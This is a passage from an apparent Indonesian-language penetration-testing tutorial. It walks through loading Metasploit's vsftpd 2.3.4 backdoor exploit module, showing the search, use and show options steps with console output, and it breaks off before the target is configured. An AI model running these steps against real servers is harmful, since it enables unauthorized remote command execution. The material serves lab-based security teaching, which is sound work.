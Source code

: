 #### **3.3. Fase Eksploitasi dengan Metasploit Framework**

Sekarang kita akan menggunakan Metasploit untuk mengeksploitasi kerentanan `vsftpd 2.3.4`.

1.  **Mulai Metasploit**: Buka terminal baru di Kali dan jalankan:

    ```bash
    msfconsole
    ```

    Tunggu beberapa saat hingga Metasploit console siap (ditandai dengan prompt `msf6 >`).

2.  **Cari Eksploit**: Gunakan perintah `search` untuk mencari modul eksploit yang relevan dengan `vsftpd 2.3.4`.

    ```bash
    msf6 > search vsftpd 2.3.4

    Matching Modules
    ================

       #  Name                                 Disclosure Date  Rank    Check  Description
       -  ----                                 ---------------  ----    -----  -----------
       0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
    ```

    Metasploit menemukan satu modul eksploit yang sangat cocok. Peringkat `excellent` berarti eksploit ini sangat stabil dan hampir pasti berhasil.

3.  **Gunakan Eksploit**: Muat modul eksploit tersebut dengan perintah `use`.

    ```bash
    msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
    ```

    Prompt Anda akan berubah menjadi `msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`, menandakan modul telah dimuat.

4.  **Lihat Opsi**: Setiap modul memiliki opsi yang perlu dikonfigurasi. Gunakan `show options` untuk melihatnya.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOSTS                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT  21               yes       The target port (TCP)

    Payload options (cmd/unix/interact):
    ...
    ```
